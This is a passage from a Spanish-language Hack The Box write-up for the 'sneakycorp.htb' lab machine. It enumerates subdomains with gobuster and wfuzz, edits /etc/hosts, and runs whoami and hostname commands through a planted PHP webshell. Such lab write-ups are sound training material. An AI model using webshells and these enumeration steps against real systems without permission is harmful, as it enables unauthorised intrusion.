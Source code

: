 Controlamos en la web si vemos el fichero `http://sneakycorp.htb/s4vishell.php` pero tenemos un *404 NOT FOUND*.
Intentamos con otras url:

- `http://sneakycorp.htb/s4vishell.php`
- `http://10.10.10.197:8080/s4vishell.php`
- `http://10.10.10.197:8080/dev/s4vishell.php`

pero nada. Aqui pensamos en que podria tener otros subdominios.

### Descubrimientos de subdominios de dos formas {-}

#### Descubrimiento de subdominios con GOBUSTER {-}

```bash
gobuster vhost -u http://sneakycorp.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Encontramos el subdominio `dev.sneakycorp.htb`

#### Descubrimiento de subdominios con WFUZZ {-}

```bash
wfuzz -c -t 200 --hw=12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "Host: FUZZ.sneakycorp.htb" http://10.10.10.197
```

Encontramos el subdominio `dev.sneakycorp.htb`

#### Retocamos en hosts {-}

```bash
nano /etc/hosts
```

<div class="figure">
<img src="images/hosts-dev-sneakycorp.png" alt="hosts dev.sneakycorp.htb" width="90%" />
<p class="caption">(\#fig:unnamed-chunk-10)hosts dev.sneakycorp.htb</p>
</div>

### Browsear el nuevo dominio {-}

Como aqui ya tenemos un nuevo dominio browseamos la web en `dev.sneakycorp.htb/s4vishell.php` y ahora si encontramos nuestra webshell.

- whoami con `dev.sneakycorp.htb/s4vishell.php?cmd=whoami`
- verificamos si estamos en un contenedor con `dev.sneakycorp.htb/s4vishell.php?cmd=hostname -I`
